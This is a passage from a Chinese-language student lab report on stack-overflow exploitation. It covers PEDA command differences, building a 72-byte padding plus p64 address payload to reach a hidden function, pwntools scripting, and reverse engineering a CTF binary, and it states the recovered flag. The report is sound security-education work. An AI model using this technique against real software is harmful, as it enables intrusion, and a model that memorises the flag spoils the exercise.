该问题说明，在二进制调试实验中，工具链版本会直接影响实验过程。遇到插件报错时，不能只停留在重新安装层面，而应先判断问题来自系统依赖、GDB 内置 Python，还是插件源码本身，这样才能更准确地定位原因。

### （二）PEDA 命令在不同版本中的差异

实验手册中的部分命令，如 `stack 20`、`telescope 20`、`pattern create 100` 和 `pattern search`，在当前 PEDA 版本中没有完全按照手册示例输出结果。为保证实验继续进行，实际操作中使用了等价命令或 GDB 原生命令替代，例如使用 `x/20gx $rsp` 查看栈内容，使用 `pattern_create 100` 生成模式字符串，并使用 `pattern_offset` 手动查询偏移量。

这说明实验步骤不能机械依赖某一个命令名称，而要理解命令背后的目的。例如，查看栈布局的核心是观察 `$rsp` 附近的内存内容；计算偏移量的核心是找到覆盖寄存器或返回地址的模式字符串片段在输入中的位置。只要目标一致，就可以根据工具版本灵活选择命令。

### （三）payload 构造中的字节序与异常终止问题

在构造 payload 时，需要注意目标程序是 64 位小端序 ELF 文件，因此 `secret_function()` 的地址不能直接按字符串形式拼接，而应使用 `struct.pack("<Q", addr)` 或 pwntools 中的 `p64(addr)` 转换为 8 字节小端格式。若字节序错误，返回地址会被覆盖成错误的数值，程序无法跳转到目标函数。

此外，payload 成功执行后程序仍可能出现 `SIGSEGV` 或 `SIGILL` 等异常。这并不代表漏洞利用失败，因为本实验的目标是让程序跳转到隐藏函数并输出指定信息。异常产生的原因是原有栈帧和返回地址已经被覆盖，`secret_function()` 执行结束后程序无法继续返回到合法位置，因此会异常终止。


## 五、实验总结

本次实验围绕 GDB/PEDA 调试、栈溢出漏洞分析、payload 构造以及 pwntools 自动化利用展开。实验一中，先构造包含 `gets()` 的漏洞程序，再通过 GDB/PEDA 查看程序保护机制、函数符号、目标函数地址和栈空间布局，并利用模式字符串确定返回地址偏移量为 72 字节。随后通过构造 `72` 字节填充数据加 `secret_function()` 地址的 payload，成功劫持程序控制流并执行隐藏函数。

实验二在实验一的基础上使用 pwntools 将漏洞利用过程脚本化。通过 `ELF()` 自动解析符号地址，通过 `p64()` 完成 64 位小端序地址打包，并利用 `process()`、`sendline()` 和 `recvall()` 完成程序交互。与手动输入 payload 相比，自动化脚本提高了实验的复现性和效率，也更接近实际漏洞验证中的工作方式。

实验三则从一个未知二进制程序 `flag_stealer` 出发，综合使用 `file`、`strings`、`checksec`、`info functions` 和 `disas` 等方法进行逆向分析。通过静态分析发现隐藏字符串，通过函数符号和反汇编结果确认 `main()`、`vulnerable()` 和 `success()` 之间的关系，最终确认 flag 为 `flag{208f1b1289da972682cbc81c8684fcc8}`。

通过本次实验，我进一步理解了栈溢出漏洞从形成到利用的完整过程：不安全输入函数会破坏栈帧结构，返回地址偏移量决定 payload 的填充长度，函数地址和字节序决定控制流能否正确跳转。同时，也认识到调试工具版本、系统环境和安全保护机制都会影响实验结果。后续在进行二进制安全分析时，应先明确目标程序架构和保护状态，再结合静态分析、动态调试和自动化脚本逐步验证结论。
